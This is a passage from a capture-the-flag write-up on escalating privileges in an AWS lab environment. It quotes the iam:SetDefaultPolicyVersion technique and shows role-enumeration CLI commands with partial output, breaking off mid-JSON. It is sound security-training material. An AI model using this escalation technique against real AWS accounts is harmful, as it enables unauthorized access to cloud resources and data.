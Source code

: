# Escalate (squ1rrel CTF 2025)

The objective of this challenge was to escalate privileges within an AWS environment and gain access to the s3 buckets. For guidance, I referred to [AWS IAM Privilege Escalation GitHub repository by RhinoSecurityLabs](https://github.com/RhinoSecurityLabs/AWS-IAM-Privilege-Escalation), specifically:

> **2. Setting the default policy version to an existing version**  
> *Description:* An attacker with the ```iam:SetDefaultPolicyVersion``` permission may be able to escalate privileges through existing policy versions that are not currently in use. If a policy that they have access to has versions that are not the default, they would be able to change the default version to any other existing version.  
> *Required Permission(s):* ```iam:SetDefaultPolicyVersion```

In this challenge, I leveraged this technique to switch to a more permissive version of **UserPolicy**.

---

## Step‑1: Analyze the Environment


### List IAM Roles

I enumerated the roles in the account:

```cmd
aws iam list-roles
```

**Key Roles Identified:**
- AWSServiceRoleForOrganizations  
- AWSServiceRoleForSSO  
- AWSServiceRoleForSupport  
- AWSServiceRoleForTrustedAdvisor  
- MagicRole  
- OrganizationAccountAccessRole  

I reviewed the details of **MagicRole** (a likely pivot point) using:

```cmd
aws iam get-role --role-name MagicRole
```

**Output:**
```json
{
    "Role": {
        "Path": "/",
        "RoleName": "MagicRole",
        "RoleId": "AROATC4J3IHY7ZJ5YU43C",
        "Arn": "arn:aws:iam::212353106417:role/MagicRole",
        "CreateDate": "2025-04-05T04:04:31+00:00",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "Service": "lambda.amazonaws.com"
                    },
                    "Action": "sts:AssumeRole"
                }
            ]
        },
        "MaxSessionDuration": 3600,
        "RoleLastUsed": {
            "LastUsedDate": "2025-04-06T05:24:56+00:00",
```